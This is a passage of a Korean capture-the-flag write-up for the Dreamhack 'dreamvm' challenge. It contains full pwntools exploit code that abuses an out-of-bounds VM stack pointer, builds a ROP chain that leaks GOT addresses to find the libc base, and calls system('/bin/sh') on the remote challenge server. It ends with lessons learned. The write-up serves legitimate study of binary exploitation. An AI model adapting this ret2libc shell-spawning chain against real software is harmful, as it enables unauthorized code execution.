pop_rsi_r15             = r.find_gadget(['pop rsi'])[0]
pop_rdx_rbx_rbp_r12_r13 = r.find_gadget(['pop rdx'])[0]
ret                     = r.find_gadget(['ret'])[0]

write_got = e.got['write']
read_got = e.got['read']
write_plt = e.plt['write']
main = e.symbols['main']

# make [ value read ] + [ push ] + [ move VM stack pointer ] chain
read_push_move  = b'\x06' + b'\x01' + b'\x04' + p64(0x10)
# make one & four dummy pass chain
dummy_1_pass    = b'\x04' + p64(0x8)
dummy_4_pass    = b'\x04' + p64(0x20)

# ========== Stage 1 ==========

# make VM stack pointer to RET + 8
payload = b'\x04' + p64(0x38)

# write(1, read@got, 8)
payload += read_push_move * 4 + dummy_1_pass
payload += read_push_move * 2 + dummy_4_pass
payload += read_push_move

# return to main
payload += read_push_move

slog('payload #1', len(payload))
payload += b'\xFF' * (0x100 - len(payload))

p.send(payload)

# write(1, read@got, 8)
payload = p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got)
payload += p64(pop_rdx_rbx_rbp_r12_r13) + p64(8)
payload += p64(write_plt)

payload += p64(main)

p.send(payload)
```

구성해야 되는 가젯 수만큼 `read_push_move` 체인을 넣어주고, 다시 `main`으로 돌아올 수 있게 하였다.

## 라이브러리 베이스 주소 구한 뒤 `system("/bin/sh")` 실행하기

```python
# ========== Stage 2 ==========

read = u64(p.recvn(8))
libc_base = read - libc.symbols['read']
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))

slog('read', read)
slog('libc_base', libc_base)
slog('system', system)
slog('/bin/sh', binsh)

payload = b'\x04' + p64(0x38)

payload += read_push_move * 3

payload += b'\xFF' * (0x100 - len(payload))

p.send(payload)

payload = p64(pop_rdi) + p64(binsh)
payload += p64(system)

p.send(payload)

p.interactive()
```

`write(1, read@got, 8)`로 출력되는 `read@got`을 알아낸 뒤, 라이브러리 베이스 주소를 구하고, `system("/bin/sh")`을 실행하는 코드이다.

> [!CAUTION]
> ⚠️ **위의 코드는 로컬 환경에서 성공합니다**
> 
> 
> 
> 문제에서 `libc.so.6` 파일이 주어지지 않았다. 그래서 로컬 환경에서는 일단 로컬 환경에 있는 `/lib/x86_64-linux-gnu/libc.so.6`으로 맞춰 먼저 해보았다.
> 
> 일단 생각한 대로 결과가 잘 나오는 것을 확인할 수 있다.
> 
> 하지만, 로컬 환경에 있는 `/lib/x86_64-linux-gnu/libc.so.6` 파일 버전이 원격과 달라 원격에서는 동일한 코드가 실행되지 않는다.
> 
> 그래서 나는 특정 함수들의 하위 12비트를 통해 라이브러리의 버전을 알 수 있는 [libc.rip] 홈페이지를 이용했다.
> 일단 leak된 함수가 많을 수록 버전이 잘 특정되기 때문에 `read@got`이랑 `write@got`도 출력되게끔 수정하였다.
> 
> 소스 코드는 이후에 설명하고, 먼저 나온 결과는 다음과 같다.
> 
> 
> 
> 두 함수의 실제 주소를 [libc.rip] 홈페이지에 적고 확인하면 다음과 같다.
> 
> 
> 
> 다양한 OS별 libc 파일이 있어서 그 중 CTF에서 가장 많이 이용되는 Ubuntu 환경의 파일을 선택했고, `read` 함수와 `system` 함수, `/bin/sh` 문자열의 오프셋을 구하였다.

---

# 5. Exploit Code (최종 익스플로잇 코드)

```python
from pwn import *

def slog(name, addr): return success(': '.join([name, hex(addr)]))

p = remote('host3.dreamhack.games', 17743)
e = ELF('./dreamvm')

r = ROP(e)

# ROP chain
pop_rdi                 = r.find_gadget(['pop rdi'])[0]
pop_rsi_r15             = r.find_gadget(['pop rsi'])[0]
pop_rdx_rbx_rbp_r12_r13 = r.find_gadget(['pop rdx'])[0]
ret                     = r.find_gadget(['ret'])[0]

write_got = e.got['write']
read_got = e.got['read']
write_plt = e.plt['write']
main = e.symbols['main']

# make [ value read ] + [ push ] + [ move VM stack pointer ] chain
read_push_move  = b'\x06' + b'\x01' + b'\x04' + p64(0x10)
dummy_1_pass    = b'\x04' + p64(0x8)
dummy_4_pass    = b'\x04' + p64(0x20)

# ========== Stage 1 ==========

# make VM stack pointer to RET + 8
payload = b'\x04' + p64(0x38)

# write(1, read@got, 8)
payload += read_push_move * 4 + dummy_1_pass
payload += read_push_move * 2 + dummy_4_pass
payload += read_push_move

# write(1, write@got, 8)
payload += read_push_move * 4 + dummy_1_pass
payload += read_push_move * 2 + dummy_4_pass
payload += read_push_move

# return to main
payload += read_push_move

slog('payload #1', len(payload))
payload += b'\xFF' * (0x100 - len(payload))

p.send(payload)

# write(1, read@got, 8)
payload = p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got)
payload += p64(pop_rdx_rbx_rbp_r12_r13) + p64(8)
payload += p64(write_plt)

# write(1, write@got, 8)
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(write_got)
payload += p64(pop_rdx_rbx_rbp_r12_r13) + p64(8)
payload += p64(write_plt)

# return to main
payload += p64(main)

p.send(payload)

# ========== Stage 2 ==========

read = u64(p.recvn(8))
write = u64(p.recvn(8))
# libc_base = read - libc.symbols['read']
libc_base = read - 0x10e1e0
# system = libc_base + libc.symbols['system']
system = libc_base + 0x52290
# binsh = libc_base + next(libc.search(b'/bin/sh'))
binsh = libc_base + 0x1b45bd

slog('read', read)
slog('write', write)
slog('libc_base', libc_base)
slog('system', system)
slog('/bin/sh', binsh)

payload = b'\x04' + p64(0x38)

payload += read_push_move * 3

payload += b'\xFF' * (0x100 - len(payload))

p.send(payload)

payload = p64(pop_rdi) + p64(binsh)
payload += p64(system)

p.send(payload)

p.interactive()
```

아래 사진처럼 원격에서 플래그를 획득할 수 있다.



---

# 6. 배운 점 & 오답 노트

- **새로 배운 점:**
	- 문제를 분석하는 새로운 방식
		- Decompiler를 믿지 않고 Assembly까지 내려가는 법
		  => pseudo code가 이해가 안돼? ==> 그럼 assembly를 직접 보자
		- Assembly에서 데이터의 역할을 추론하는 법
		  => `이 값이 바이너리에서 어떻게 사용되는가?`를 기준으로 의미를 찾아보자
		- Assembly 패턴으로 자료구조를 추론하는 법
		  => 명시적인 내용이 없더라도, 패턴을 통해 자료구조를 추론해보자
		- OOB 취약점을 알아챈 점
		  => VM의 SP를 움직이는 명령이지만, 범위 제한이 미흡하다는 점을 보고 OOB를 추론하였다.
		- 로컬과 원격의 라이브러리 버전 차이 해결
		  => leak할 수 있는 함수들을 최대한 모아 [libc.rip]과 같은 사이트를 참고하여 버전을 추론해보자